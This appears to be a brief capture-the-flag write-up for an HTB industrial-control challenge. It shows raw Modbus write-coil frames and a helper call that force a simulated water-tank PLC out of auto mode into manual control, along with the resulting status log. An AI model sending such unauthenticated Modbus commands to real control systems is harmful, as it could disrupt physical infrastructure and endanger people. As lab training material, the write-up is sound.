

# Factory

## CHALLENGE DESCRIPTION

Our infrastructure is under attack! The HMI interface went offline and we lost control of some critical PLCs in our ICS system. Moments after the attack started we managed to identify the target but did not have time to respond. The water storage facility's high/low sensors are corrupted thus setting the PLC into a halt state. We need to regain control and empty the water tank before it overflows. Our field operative has set a remote connection directly with the serial network of the system.

## Walkthrough



We need to learn about PLC https://en.wikipedia.org/wiki/Ladder_logic
and Modbus RTU command: https://en.wikipedia.org/wiki/Modbus


Calculate CRC for each command
But. After few testings, I found that no need CRC lol.

Sending 
```python
command("start", ON)
command("manual_mode_control", OFF)
```
... can trigger manual mode! 
It works like I expected


```
Modbus command: 52050021ff00
Modbus command sent to the network!
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
1. Get status of system
2. Send modbus command
3. Exit
Select: 2
Modbus command: 520526dbff00
Modbus command sent to the network!
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
1. Get status of system
2. Send modbus command
3. Exit
```

